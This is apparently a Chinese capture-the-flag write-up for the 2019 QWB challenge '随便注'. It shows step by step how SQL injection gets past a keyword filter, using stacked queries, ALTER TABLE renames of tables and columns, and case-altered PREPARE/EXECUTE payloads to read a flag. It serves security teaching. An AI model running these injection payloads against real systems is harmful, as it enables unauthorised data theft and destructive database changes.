


# [强网杯 2019]随便注

【SQL注入】

#### 方法一

打开题目，看到一个输入框，先分别输入 1 和 2 看看题目的回显是什么。


似乎看不出什么眉头来，只有简单的数组回显，于是开始正常的SQL注入尝试。

**根据回显的不同来探测SQL注入点。**
```txt
1'			// 报错
1'#			// 正常回显
1' or 1=2#		// 正常回显
1' and 1=2#		// 无回显
// 说明存在注入漏洞，且可能用单引号包裹，可用单引号来进行注入
```

**猜测列数**
```txt
1' order by 2#	// 有正常回显
1' order by 3#	// 报错
// 说明列数为2
```

**尝试`union ，select`查询数据库内容**
```txt
-1' union select 1,2#

// 回显
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
发现有过滤，且几乎过滤掉了所有需要用到的查询注入方式。

于是尝试其他的注入方式，起初通过大小写、双写等都无法绕过，最后通过 堆叠注入 的方式有一定的结果。
```txt
1';show tables;#
```

这里发现两个表，再次利用堆叠注入，查看表结构。
```txt
1';desc `words`;#
1';desc `1919810931114514`;#
或
-1';show columns from `1919810931114514`#
-1';show columns from `words`#
```


发现了 flag 字段，由于查询语句被过滤，因此无法直接得出 flag，这着实让人头疼。

回想题目所输入的查询是数字 1、2 都可以得出正常的结果，并且两个表中第一个表存在 `id`，想必是根据`id`来查询`words`表得出结果的，于是尝试修改两个表的字段名再进行查询。

这里猜测数据的查询语句大致为：`select * from words where id = ' ';`，因此，可以将`words`表改为别的名字，再将表`1919810931114514`改为`words`，`flag`改为`id`。
```txt
1'; alter table `words` rename to `words1`;alter table `1919810931114514` rename to `words`;alter table `words` change `flag` `id` varchar(50);#
```

随后再进行查询，由于 flag 其实可能并不真实存在为 1 的列，因此再用万能密码进行查询`1' or 1=1#`，得出 flag 。


#### 方法二

SQL预处理的方式进行堆叠注入查询，这样可以不用修改原来的表，也会防止修改错误而带来的麻烦。

```txt
1';set @sql = content("se","lect flag from `1919810931114514`;");prepare hello from @sql;execute hello;#

// 回显
strstr($inject, "set") && strstr($inject, "prepare")
```
`set`和`prepare`被过滤了，但是`strstr()`函数并不区分大小写，于是通过大小写绕过得到最终的Payload。

```txt
1';Set @sql=concat("sel","ect flag from `1919810931114514`;");Prepare hello from @sql;execute hello;#
```
最终得到 flag 。

#### 补充
SQL堆叠注入在PHP中主要是由于`multi_query()`函数所引起的，它可以一次执行多条SQL语句。

**MySql预处理：**

每个代码的段的执行都要经历：词法分析——语法分析——编译——执行

预编译一次，可以多次执行。用来解决一条SQL语句频繁执行的问题。

```txt
预处理语句：prepare 预处理名字 from ‘sql语句’
执行预处理：execute 预处理名字 [using 变量]
deallocate prepare	// 释放预处理的语句
```
eg:
```sql
prepare stmt from 'select * from stuinfo where stuno=?' ;

delimiter //
set @id='s25301';execute stmt using @id //
```


> 参考文章：
> https://www.cnblogs.com/xhds/p/12269987.html
> https://zhuanlan.zhihu.com/p/78989602